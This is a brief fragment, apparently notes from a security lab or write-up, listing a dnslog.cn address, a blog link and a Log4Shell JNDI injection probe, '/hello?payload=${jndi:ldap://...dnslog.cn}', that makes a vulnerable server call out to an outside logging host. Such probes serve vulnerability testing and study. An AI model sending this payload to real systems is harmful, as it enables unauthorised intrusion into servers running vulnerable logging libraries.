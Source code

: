 http://dnslog.cn/

http://qk8ui0.dnslog.cn/


https://blog.csdn.net/Myon5/article/details/136548391

/hello?payload=${jndi:ldap://mv6643.dnslog.cn}